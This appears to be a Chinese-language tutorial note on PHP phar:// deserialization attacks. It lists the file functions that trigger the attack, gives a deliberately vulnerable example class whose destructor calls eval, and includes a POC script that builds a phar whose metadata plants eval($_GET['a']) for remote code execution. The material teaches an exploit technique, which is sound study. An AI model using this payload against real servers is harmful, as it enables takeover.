 manifest压缩文件的属性等信息，以序列化存储；存在一段序列化的字符串；

调用phar伪协议，可读取 .phar文件；

**Phar协议解析文件时，会自动触发对manifest字段的序列化字符串进行反序列化**

Phar需要PHP >= 5.2 在php.ini中将phar.readonly设为Off（注意去掉前面的分号）

| 受影响的函数      |               |              |                   |
| ----------------- | ------------- | ------------ | ----------------- |
| fileatime         | filectime     | file_exists  | file_get_contents |
| file_put_contents | file          | filegroup    | fopen             |
| is_dir            | is_executable | is_file      | parse_ini_file    |
| is_readable       | is_writable   | is_writeable | parse_ini_file    |
| copy              | unlink        | stat         | readfile          |

```php
/*例题*/

/*index.php*/

<?php
class Testobj
{
    var $output="echo 'ok';";
    function __destruct()
    {
        eval($this->output);
    }
}
if(isset($_GET['filename']))
{
    $filename=$_GET['filename'];
    var_dump(file_exists($filename));//提交文件名filename，file_exists读取文件，检查文件是否存在
    // 提交?filename=/etc/passwd会返回bool(true)
    // 有文件包含功能，可调用phar伪协议，读取test.phar
}

/*phar.php*/(POC模板)

<?php
class Testobj
{
    var $output='';
}
@unlink('test.phar');   //删除之前的test.par文件(如果有)
$phar=new Phar('test.phar');  //创建一个phar对象，文件名必须以phar为后缀
$phar->startBuffering();  //开始写文件
$phar->setStub('<?php __HALT_COMPILER(); ?>');  //写入stub
$o=new Testobj();
$o->output='eval($_GET["a"]);';
$phar->setMetadata($o);//写入meta-data
$phar->addFromString("test.txt","test");  //添加要压缩的文件
$phar->stopBuffering();
```
